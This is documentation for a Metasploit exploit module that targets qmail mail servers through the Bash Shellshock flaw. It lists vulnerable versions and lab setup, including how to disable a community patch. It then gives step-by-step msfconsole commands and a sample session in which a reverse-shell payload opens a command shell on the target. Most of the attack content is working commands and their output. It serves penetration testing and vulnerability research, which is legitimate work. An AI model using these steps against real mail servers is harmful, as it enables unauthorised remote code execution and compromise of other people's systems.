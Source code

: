 ## Vulnerable Application

Any qmail version (works on latest versions, qmail-1.03 and netqmail-1.06) running on a system with a vulnerable BASH (Shellshock). In order to execute code, /bin/sh has to be linked to bash (usually default configuration) and a valid recipient must be set on the RCPT TO field (usually admin@exampledomain.com). The exploit does not work on the "qmailrocks" community version as it ensures the MAILFROM field is well-formed.

## Setting up a vulnerable environment

Install Qmail on a Linux server with a shellshock vulnerable bash. Ensure that /bin/sh is linked to bash. Create an e-mail account on that qmail server. IMPORTANT: there is a community version of qmail, "qmailrocks" (http://qmailrocks.thibs.com/) which apply a patch that checks the vulnerable MAILFROM parameter. This version (with the patch applied) is NOT vulnerable. If you are using this version, change the "int mfcheck()" function on qmail-smtpd.c and ensure it returns always 0 (after applying the patch) and re-compile qmail-smtpd.

## Verification Steps

  1. `use exploit/unix/smtp/qmail_bash_env_exec`
  2. `set RHOST <target IP>`
  3. `set MAILTO <valid e-mail recipient>`
  4. `set payload cmd/unix/reverse`
  5. `set LHOST <local IP>`
  7. optionally set `RPORT` and `LPORT`
  8. `exploit`
  9. **Verify** a new shell session is started
  
## Options

**MAILTO**

A valid e-mail recipient. Usually, admin@targetdomain.com can be used.

## Sample Output
**Tested on qmail-1.03 on Debian 6.0.6 (squeeze). BASH version 4.1.5(1).**

```
msf > use exploit/unix/smtp/qmail_bash_env_exec 
msf exploit(qmail_bash_env_exec) > set rhost 192.168.1.113
rhost => 192.168.1.113
msf exploit(qmail_bash_env_exec) > set mailto "admin@testqmail2.test"
mailto => admin@testqmail2.test
msf exploit(qmail_bash_env_exec) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf exploit(qmail_bash_env_exec) > show options 

Module options (exploit/unix/smtp/qmail_bash_env_exec):

   Name    Current Setting        Required  Description
   ----    ---------------        --------  -----------
   MAILTO  admin@testqmail2.test  yes       TO address of the e-mail
   RHOST   192.168.1.113          yes       The target address
   RPORT   25                     yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.102    yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(qmail_bash_env_exec) > run

[*] Started reverse TCP double handler on 192.168.1.102:4444 
[*] 192.168.1.113:25 - Sending the payload...
[*] 192.168.1.113:25 - Sending RCPT TO admin@testqmail2.test
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo RvZfov9i2ZuveLXA;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "RvZfov9i2ZuveLXA\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 19 opened (192.168.1.102:4444 -> 192.168.1.113:48167) at 2017-05-04 15:11:02 +0200

whoami
vpopmail
```
